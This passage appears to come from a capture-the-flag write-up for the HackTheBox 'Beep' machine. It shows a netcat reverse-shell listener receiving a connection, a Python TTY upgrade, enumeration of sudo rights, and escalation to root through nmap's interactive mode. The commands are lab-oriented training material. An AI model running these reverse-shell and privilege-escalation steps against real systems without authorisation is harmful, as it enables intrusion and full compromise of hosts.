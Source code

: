 ```
root@kali:~/htb/beep# nc -lvp 443
listening on [any] 443 ...
10.10.10.7: inverse host lookup failed: Unknown host
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.7] 40123
id
uid=100(asterisk) gid=101(asterisk)

python -c "import pty;pty.spawn('/bin/bash')"
bash-3.2$
```

The exploit mentioned a way to priv esc using sudo and nmap interactive on the target host. Let's try that

First let's verify that we can run nmap as root without a password:

```
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper

``` 

Next run nmap in interactive mode and spawn a root shell:

```
sh-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
sh-3.2# 
```